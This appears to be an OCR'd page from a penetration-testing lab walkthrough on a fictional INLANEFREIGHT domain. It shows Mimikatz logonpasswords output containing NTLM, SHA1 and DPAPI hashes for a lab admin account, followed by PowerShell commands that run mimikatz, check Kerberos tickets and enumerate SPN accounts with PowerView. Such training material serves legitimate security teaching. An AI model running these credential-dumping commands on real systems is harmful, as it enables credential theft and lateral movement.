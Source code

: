 ```powershell
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DEV01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 1284140 (00000000:0013982c)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70647 (00000000:000113f7)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname
